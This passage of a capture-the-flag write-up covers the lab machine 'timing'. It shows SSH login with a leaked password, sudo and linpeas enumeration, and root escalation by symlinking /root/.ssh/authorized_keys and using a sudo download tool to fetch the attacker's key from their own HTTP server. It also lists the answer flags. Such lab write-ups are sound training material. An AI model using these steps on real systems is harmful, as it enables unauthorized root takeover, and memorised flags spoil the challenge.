This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.135' (ED25519) to the list of known hosts.
aaron@10.10.11.135's password: 
Permission denied, please try again.
aaron@10.10.11.135's password: 

❯ ssh aaron@10.10.11.135
aaron@10.10.11.135's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May 21 15:32:21 UTC 2022

  System load:  0.08              Processes:           175
  Usage of /:   60.0% of 4.85GB   Users logged in:     0
  Memory usage: 17%               IP address for eth0: 10.10.11.135
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat May 21 01:41:43 2022 from 10.10.16.37
aaron@timing:~$ 
```
We got access to aaron user with credentials `aaron:S3cr3t_unGu3ss4bl3_p422w0Rd`.

## Privilege escalation
Now for the privilege escalation we start checking the NOPASSWD permissions for the user `aaron`:
```bash
aaron@timing:~$ sudo -l
Matching Defaults entries for aaron on timing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User aaron may run the following commands on timing:
    (ALL) NOPASSWD: /usr/bin/netutils
aaron@timing:~$ 
```
We can see that the user `aaron` has the following commands:
- `/usr/bin/netutils` -> Seems we can download files from http and ftp servers with router privileges. Since we can't download files from `/root`, it seems a dead end.

### linpeas.sh
Let's run linpeas to enumerate all the vulnerabilities related to privesc.
```bash
❯ scp ./linpeas.sh aaron@10.10.11.135:/tmp
aaron@10.10.11.135s password: 
linpeas.sh                                       100%  748KB   1.6MB/s   00:00 
aaron@timing:~$ cd /tmp
aaron@timing:/tmp$ ls
hsperfdata_root
linpeas.sh
systemd-private-e9d0734106b94d539a697ee2a91113e3-apache2.service-TOpyPl
systemd-private-e9d0734106b94d539a697ee2a91113e3-systemd-resolved.service-Tb9WjZ
systemd-private-e9d0734106b94d539a697ee2a91113e3-systemd-timesyncd.service-jWTT4K
vmware-root_858-2722632195
aaron@timing:/tmp$ ./linpeas.sh 
```
From the output we can obtain the following information:
- Sudo version: `1.8.21p2` (Not vulnerable to polkit)
- ssh permits root login: `yes`

As the machine permits connecting as root, we can try adding our ssh key to `/root/.ssh/authorized_keys`. But we still need a way to do it, from now on we have two attack vectors:

### netutils as sudo
We can use netutils to overwrite the authorized_keys file, by using soft links. We will create a soft link to `/root/.ssh/authorized_keys` and download a file with the same name as the soft link, this will overwrite the downloaded content into that file.
```bash
aaron@timing:~$ ln -s /root/.ssh/authorized_keys keys
❯ cp ~/.ssh/id_rsa.pub keys
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
aaron@timing:~$ sudo netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: 10.10.14.122:8000/keys
Initializing download: http://10.10.14.122:8000/keys
File size: 568 bytes
Opening output file keys
Server unsupported, starting from scratch with one connection.
Starting download


Downloaded 568 byte in 0 seconds. (5.54 KB/s)

netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 2
❯ ssh root@10.10.11.135 -i ~/.ssh/id_rsa
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-147-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat May 21 16:54:12 UTC 2022

  System load:  0.0               Processes:           181
  Usage of /:   60.7% of 4.85GB   Users logged in:     1
  Memory usage: 22%               IP address for eth0: 10.10.11.135
  Swap usage:   0%


8 updates can be applied immediately.
8 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sat May 21 01:38:24 2022 from 10.10.16.37
root@timing:~# ls
axel  netutils.jar  root.txt
```
Success, we got the file root.txt

### pspy32s
We can also use pspy32s and have a look at the cron jobs of root user:
```bash
❯ scp ./pspy32s aaron@10.10.11.135:/tmp
aaron@timing:/tmp$ ./pspy32s | grep UID=0
```
After some time sniffing processes, we couldn't find any root processes to inject any payload, so this path seems like a dead end.


## Machine flag
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | 38b5e7f9bffa18110c816b856a300f10 | No | 21-05-2022|
| Root | 957882c8f1737b776b4f37ec3bc93570 | No | 21-05-2022|

## References
- https://github.com/Riamse/python-uniqid/blob/master/uniqid.py
- https://www.geeksforgeeks.org/get-post-requests-using-python/